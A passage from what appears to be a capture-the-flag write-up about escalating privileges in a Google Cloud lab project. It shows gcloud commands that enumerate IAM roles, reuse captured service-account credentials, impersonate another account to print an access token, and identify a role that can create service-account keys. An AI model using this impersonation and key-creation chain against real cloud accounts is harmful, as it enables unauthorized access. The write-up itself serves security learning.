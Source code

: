 Which shows that `sa-implicit-a` may be able to assume `sa-implicit-b` via something called "implicit delegation."

```console
== sa-implicit-b@aisaas-project-474522.iam.gserviceaccount.com ==
bindings:
- members:
  - serviceAccount:sa-implicit-a@aisaas-project-474522.iam.gserviceaccount.com
  role: projects/aisaas-project-474522/roles/implicitdelegationcustom
== 753482425537-compute@developer.gserviceaccount.com ==
```

```console
[MacBook-Pro learn-the-alphabet]$ gcloud iam roles describe --project aisaas-project-474522 implicitdelegationcustom
description: 'Created on: 2025-10-14'
etag: BwZBIEg6Ghg=
includedPermissions:
- iam.serviceAccounts.implicitDelegation
- iam.serviceAccounts.list
name: projects/aisaas-project-474522/roles/implicitdelegationcustom
stage: ALPHA
title: implicitdelegation-custom
```

We didn't have explicit permissions to generate a token for B. However, we pause here because we realize that `sa-secretmgr@aisaas-project-474522.iam.gserviceaccount.com` has access to the `getaccesstokencustom` role, which has the ability to impersonate the `vm-serviceaccount` service account:

```console
$ gcloud auth login sa-secretmgr@aisaas-project-474522.iam.gserviceaccount.com
$ gcloud auth print-access-token --impersonate-service-account=vm-serviceaccount@aisaas-project-474522.iam.gserviceaccount.com
WARNING: This command is using service account impersonation. All API calls will be executed as [vm-serviceaccount@aisaas-project-474522.iam.gserviceaccount.com].
ya29[redacted]9ZQk
```

And from the project IAM policy, we know `vm-serviceaccount` can create private keys for other service accounts:

```console
[MacBook-Pro learn-the-alphabet]$ gcloud iam roles describe --project aisaas-project-474522 sakeyCreator
description: 'Created on: 2025-10-16'
etag: BwZBSkAzHqk=
includedPermissions:
- iam.serviceAccountKeys.create
name: projects/aisaas-project-474522/roles/sakeyCreator
stage: ALPHA
title: keyCreator
```

To summarize, since a lot is going on:

1) We have access to `sa-implicit-a` which should be able to assume `sa-implicit-b` through something called "implicit delegation," but we haven't gotten it to work yet.
2) We have service account credentials for `sa-secretmgr` from a previous flag, but we only now realize from the ChatGPT output that it has an implicit ability to generate an access token for `vm-serviceaccount`.
